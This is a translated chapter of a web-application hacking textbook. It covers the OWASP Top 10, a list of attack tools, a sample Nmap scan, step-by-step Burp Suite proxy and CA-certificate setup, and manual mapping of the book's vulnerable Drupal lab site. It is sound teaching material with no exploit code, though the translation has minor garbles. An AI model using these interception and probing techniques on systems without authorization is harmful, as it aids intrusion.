我们已经查看了这些组件，现在我们感兴趣的是这些组件之上的软件。应用程序将由服务器端和客户端脚本或代码组成。这些代码可能是从其他来源复制和复用的代码（可能经过调整）以及针对该特定 Web 应用程序的自定义代码。

Hacker 为客户执行的大部分工作包括测试 Web 应用程序。任何提供某种在线服务的公司或组织都会有一个 Web 应用程序，它们通常是公司产生收入的手段。

Web 应用程序攻击是一个广阔的领域，永远有学不完的东西。但通过理解最常见的漏洞，你可以建立起坚实的基础。OWASP Top 10 是这段旅程的很好的起点。

# OWASP Top 10

OWASP Top 10 是一个面向开发者和 Web 安全人员的意识文档，代表了最关键的 Web 安全风险。它定期更新以反映不断变化的威胁。当前的（2017）列表包括：

- 注入
- 身份验证破解
- 敏感数据泄露
- XML 实体 (XXE)
- 访问控制失效
- 安全配置错误
- 跨站脚本 (XSS)
- 不安全的反序列化
- 有已知漏洞的组件
- 日志监控不足

每个类别都代表了攻击者可以利用的广泛风险。通过理解这些风险，你可以更好地识别、测试和防止攻击。

# Web 应用程序攻击者工具包

随着课程的进行，你可能注意到每章介绍的新工具并不多；然而，对于 Web 应用程序攻击，有很多我们没有介绍的工具。以下列表包含了一些专用工具，以及适用于 Web 应用程序攻击的通用工具。这将让你了解多样的 Web 应用程序漏洞可以使用：

- Web 浏览器（不同应用程序响应可能不同）
- Web 代理，如 Burp Suite、Mitproxy 或 ZAP
- 漏洞扫描器（Nikto 和 W3af）
- Nmap 脚本
- SQLMap（用于利用 SQL 注入漏洞）
- XML 工具和利用
- 跨站脚本工具，如 BeEF
- SSLScan 以及其他 SSL/TLS 扫描器
- Web 框架和 CMS 软件的技术文档
- 取应用程序的自定义脚本

# 对 Web 应用程序进行端口扫描

在生产服务器上，你不应该看到运行着大量的服务。记住，这个服务器是为向公众提供 Web 内容而设计的，它将接收大量的流量。它应该尽可能安全——希望只开启 TCP 80 和 443 端口。这里是一个典型的 Web 应用程序服务器的 Nmap 扫描结果：


Nmap 扫描报告：
```
Nmap scan report for hacker.house (137.74.227.60)
Host is up (0.069ms latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE
80/tcp open  http
443/tcp open  https
```

一个典型的 Web 托管主机应该只开放几个端口——TCP 端口 80 和 443。尽管如此，仍应进行全面的扫描。如果你在 Web 服务器上看到其他开放的端口，这可能意味着你的客户端对安全的重视不够，你可能会通过调查这些其他服务来发现问题。

如果你正在为一家较小的组织工作（或为他们服务），对他们来说，拥有许多用于不同目的专用主机可能并不符合成本效益，因此在 Web 服务器所在的同一台主机上运行数据库服务器（或其他服务）对你来说可能是合理的。但这违背了推荐的最佳实践，且始终建议尽可能将组件分离，并托管在唯一的机器或虚拟实例上。这样一来，如果应用程序设计的某部分出现漏洞，其影响范围将比所有组件都托管在同一台服务器上要小得多。书中的实验环境代表了一个极其混乱的 Web 托管主机示例；你不应该期望在任何生产主机上看到运行许多服务。虽然你现在的关注重点是 Web 应用，但在进行实地测试时，你仍然应该检查运行 Web 应用的任何主机的基础设施方面。在对任何 Web 应用进行评估时，你应该使用基础设施测试相关的工具，例如第 7 章“漏洞 Web 世界”中讨论的工具。

# 使用拦截代理

除了 Web 浏览器之外，Web 应用测试最重要的工具可能是拦截代理。`Burp Suite` (portswigger.net) 是一个包含在桌面 Java 应用程序中的工具集，其中包含代理工具。`Burp Suite` 对于 Web 应用黑客的不同方面都非常有用。为此，我们推荐使用 `Burp Suite` 社区版，它是包含在 Kali Linux 中的。该工具的免费版本是学习使用拦截代理的绝佳方法。

现在我们将暂时离开终端，因为这是一个图形用户界面 (GUI) 工具。但这并不意味着它简单使用，初一看它也并不直观。你起初可能会有些畏惧，但不用担心——我们将引导你熟悉关键功能。你可能会发现，这个工具的学习曲线比命令行工具（例如执行类似工作的 `Mitmproxy` (mitmproxy.org)）要平缓。

`Burp Suite` 社区版包含了商业版的许多功能。最大的区别在于，在专业版中你可以将项目保存到磁盘，并且还有额外的工具用于自动发现 Web 应用中的漏洞。

拦截代理是武器库的重要部分，它们允许对每一个 Web 请求和响应进行极其细致的分析。不仅如此，一旦请求离开你的浏览器，你就可以更改它的任何方面，以探测 Web 应用的弱点并利用漏洞。在请求离开浏览器后对其修改是绕过客户端验证（通常由浏览器中的 JavaScript 执行）的一种简单方法，但这不应被视为安全目的的正规验证手段。

# 设置 Burp Suite 社区版

现在我们将逐屏查看 `Burp Suite`，由于该工具频繁更新，截图与你的版本略有不同。

当你启动 `Burp Suite` 时，会弹出一个对话框，允许你启动新项目（该项目不允许保存），如图 12.1 所示。在这里，你只需要点击对话框右下角的 `Next`（下一步）按钮。



**图 12.1：** Burp Suite 初始界面

随后你将看到另一个对话框，如图 12.2 所示，它提供了加载配置文件的选项。这一次，你只需要点击 `Start Burp` 按钮，即可使用默认设置。

在创建一个临时项目并启动 `Burp Suite` 后，你会看到一个类似于图 12.3 的界面。



图 12.2：Burp Suite 配置



图 12.3：Burp Suite 的默认视图

你可以点击 `Hide`（隐藏）按钮来隐藏 `Activity`（活动）面板，这无仅仅是付费版的广告。随后，你将看到一个类似于图 12.4 的界面。

在应用程序窗口的顶部，你会看到各种下拉菜单：`Burp`、`Project`、`Intruder` 等。在菜单栏下方，你会看到许多标签。每个标签代表 `Burp Suite` 工具集中的一种不同工具：`Dashboard`、`Target`、`Proxy`、`Intruder`、`Repeater` 等。还有一个 `User options`（用户选项）标签，你可以在其中更改字体大小（在 `Display` 子标签下），你可能想在继续之前现在进行此操作。应用程序需要重启以应用此更改。



**图 12.4：** Burp Suite 的仪表板

现在，我们将关注 `Proxy`（代理）标签。一旦你点击 `Proxy` 标签，你将看到几个选项，如图 12.5 所示。在这里你需要对 `Burp Suite` 进行所需的更改以拦截来自 Firefox 的 Web 请求。选择 `Manual proxy`（手动代理）选项，并确保 `HTTP Proxy` 设置为 `127.0.0.1`。你需要将此输入到框中。记住，`Burp Suite` 的代理服务默认监听在 TCP 端口 8080，因此这就是你应该在 `Port`（端口）框中输入的数字。你还应该勾选“Use proxy for all protocols”（所有协议使用代理）框框。完成后，你可以点击 `OK`。

现在你已准备好使用浏览器请求网页了。在浏览器地址栏中指定 URL `http://<IP>`，其中 `<IP>` 是运行实验的虚拟机 (VM) 的 IP 地址。如果你遵循并完成了到为止的所有步骤，浏览器不应该加载页面（它看起来像挂起了一），因为 `Burp Suite` 已拦截了请求。切换到 `Burp Suite` 并确保你处于 `Intercept`（拦截）标签页。在窗口中，你应该能看到浏览器发送的请求——类似于图 12.9 所示的请求。你现在有权选择在编辑或不编辑的情况下允许请求前往目标目的地，或者使用 `Drop`（丢弃）按钮丢弃请求，换言之，停止其继续运行。现在点击 `Forward`（前进）并让它原样发送。

# 第 12 章 ■ Web 应用程序



图 12.8：Firefox 连接设置

如果你的请求已发送到正确的 IP 地址，并且目标在 TCP 端口 80 上提供 HTTP 服务，接下来你将在同一个窗口中看到服务器的响应，如图 12.10 所示。现在点击前进（`Forward`）按钮让该请求到达 Firefox。切换回 Firefox，你应该能看到一个网页已加载。这就是拦截代理的基本功能和操作。你不需要一直这样使用 `Burp Suite`，但了解如何操作将有助于解释其他功能。如需停止 `Burp Suite` 拦截你的网络请求，点击“拦截（`Intercept`）”以关闭拦截器（turn it off）。这将允许你进行浏览，而无需手动处理每个请求和响应。`Burp Suite` 仍在对你的流量进行代理，并记录请求和响应。

请注意，如果你现在关闭 `Burp Suite`，你将无法浏览网站，因为请求仍在发送到 `127.0.0.1:8080`。要让浏览器恢复正常，你需要撤销之前所示的步骤并禁用代理服务器设置。你可以在 Firefox 中安装一些插件，例如 `FoxyProxy`（你可能会发现它对于快速启用和禁用代理设置非常有用，例如 addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard）。

如果你对拦截 HTTP 请求和响应的基本概念感到满意（我们稍后会介绍 HTTPS），请查看 `Burp Suite` 中的“目标（`Target`）”选项卡。



图 12.9：一个被拦截的 HTTP 请求

如果你在 `Burp Suite` 运行的同时继续在 Firefox 中浏览网站，你将看到各种资源——网页和其他内容——填满了“目标”选项卡下方的“站点地图（`Site Map`）”子选项卡下的屏幕左侧。点击列表中目标地址左侧的箭头，或者在目标地址上点击右键并从右键菜单中选择“展开分支（`Expand Branch`）”，将展开该项目，显示出各种文件和目录，如图 12.11 所示。你可以继续点击这些箭头来进一步展开分支。

`Burp Suite` 会为 Web 应用程序创建一个地图或树状表示。你还会看到一些你没有请求过、甚至并不存在于目标主机上的项目或资源。`Burp Suite` 通过查看收到的响应并寻找其中的其他内容来实现这一点。

# 在 HTTPS 上使用 Burp Suite



你以后某个时候肯定需要通过 HTTPS 连接到目标网站（许多 Web 应用程序将仅通过 HTTPS 运行），可能只提供从端口 80 到端口 443 的重定向。如果你尝试通过在浏览器的地址栏中输入 `https://TargetIP` 来访问书籍虚拟机（VM），你会发现你无法通过 `Burp Suite` 访问该网站。为了让 `Burp Suite` 作为 HTTPS 流量的代理，你需要从 `Burp Suite` 获取证书并将其导入 Firefox，这样这种信任将是一次安全连接。你可以通过访问 `http://localhost:8080` 来做到。在浏览器的地址栏输入此内容并按回车——你会看到一个类似于 Burp 图 12.12 的屏幕。

你将看到一个文件对话框（见图 12.13）。将文件保存到你通常保存下载的地方。在下一步中，你把此文件导入 Firefox。



图 12.11：Burp 的站点地图工具



图 12.12：Burp Suite CA



```
cacert.der 证书（973 字节）

来自: http://localhost:8080

Firefox 应该如何处理此文件？

[ ] 使用（默认）打开

[x] 保存文件

目前自动执行此操作。
```

图 12.13：保存 Burp Suite 的 CA 证书

一旦你在计算机的已知位置有了此证书的副本，你就可以将其导入 Firefox。打开设置页面，就像你之前配置代理设置时做的那样。这次，前往“隐私与安全（`Privacy & Security`）”，滚动到页面底部。你正在寻找证书的选项。点击“查看证书（`View Certificates`）”按钮，如图 12.14 所示，将弹出一个对话框。



图 12.14：Firefox 的隐私与安全设置

在证书管理器对话框中（如图 12.15 所示），你需要确保了“机构（`Authorities`）”视图。这是默认选项。点击“导入（`Import`）”并选择你从 Burp 下载的文件。



图 12.15：Firefox 的证书管理器

你将看到有关证书的一些选项，如图 12.16 所示。勾选“信任标识网站（`Trust to identify websites`）”框，然后点击“确定（`OK`）”。注意证书的名称是 PortSwigger。

在成功导入 PortSwigger CA 后，你应该使用配置了 `Burp Suite` 的浏览器连接到端口 443 的书籍虚拟机。现在你应该可以顺利地浏览了。当你这样做时，可能会看到来自 Firefox 的警告信息——类似于图 12.17 所示。在这种情况下，你可以点击“高级（`Advanced`）”按钮。



图 12.16：信任 PortSwigger



图 12.17：潜在的安全警告



图 12.18：接受风险并继续按钮

# 手动浏览与映射

现在你已经设置好了代理，准备好作为普通成员开始浏览该网站了。确保你已经禁用了 `Burp Suite` 中的拦截代理工具——否则你可能会在 `Burp Suite` 中产生大量队列请求——这是初次使用网站用户的常见问题。这些 `Burp Suite` 用户不知道当拦截器工具开启时，浏览器会等待用户交互。`Burp Suite` 仍然记录你发送和接收的所有响应。

通过手动浏览和映射应用程序来测试特定的漏洞是非常有用的，因为这让你了解网站是如何运作的、其预期行为或设计是什么，以及你以后应该关注哪些区域。作为 Web 应用程序攻击的新手，你无疑会觉得没有时间彻底测试应用程序的每一个角落。然而，你应该能够识别出进一步调查的区域，并优先考虑你希望进行测试的部分。如果你正在查看托管在 Hacker Book 虚拟机 HTTPS 端口上的 Web 应用程序，你会发现我们团队的某人是《小马宝》（My Little Pony）的粉丝。从表面上看，这是一个粉丝网站（见图 12.19）。



图 12.19：书籍虚拟机的 Web 应用程序 (1)

# 第 12 章 - Web 应用

浏览器的地址栏。URL 看起来是什么样的？可能会有某些你可以篡改的参数。在这个阶段，你不希望过深入研究应用程序的某个方面，而是要对它以及它的整体工作机制有一个初步的感觉。

在浏览图 12.19 所示的网页时，一些立即表现出来值得进一步调查的内容如下：

- 搜索框
- 用户登录表单
- “创建新账户”和“请求新密码”链接
- 示例 XML 链接
- 看起来似乎是一个博客的事

如果你向下滚动首页，你将看到更多信息，如图 12.20 所示。这确实是某种形式的博客，因为你会看到“Posted by webadmin”和一个 RSS 图标。页面的最底部显示着“Powered by Drupal”。Drupal 是一个流行的内容管理框架。如果我们还能获取版本号，就可以检查已知的 Burp 漏洞。如果你点击所示图像下方的“更多”链接，你将跳转到一个新页面，其 URL 类似于以下的 `http://192.168.56.104/q-node/2`，尽管你看到的 IP 地址可能有所不同。此 URL 现在包含一个参数，因此我们可以将其加入待调查列表。向下滚动此页面，你将看到一个“添加新评论”表单。你可以用它来尝试注入恶意字符串或字符，以探测弱点。通过将此也加入你的测试项目列表，你将为以后回到这里做好充分准备！

你到底应该寻找什么可能在起初并不清晰，这正是方法论和检查清单（`checklists`）大显身用场的地方。在我们解释了许多常见漏洞之后，你对要寻找什么会有更好的想法。

在花费一些时间浏览并记录任何有趣的内容后，回到 `Burp Suite` 的 `Target`（目标）和 `Site Map`（站点地图）子标签页。屏幕右侧显示了一个面板，其中包含了在一系列标题下进行的各种请求：`Host`（主机）、`Method`（方法）、`URL` 等。在下方的面板中，你可以看到更多标签页：例如 `Request`（请求）和 `Response`（响应），以及下方的 `Raw`（原始）、`Params`（参数）、`Headers`（请求头）和 `Hex`（十六进制）。这允许你以各种格式查看目前收到的每个请求和响应。

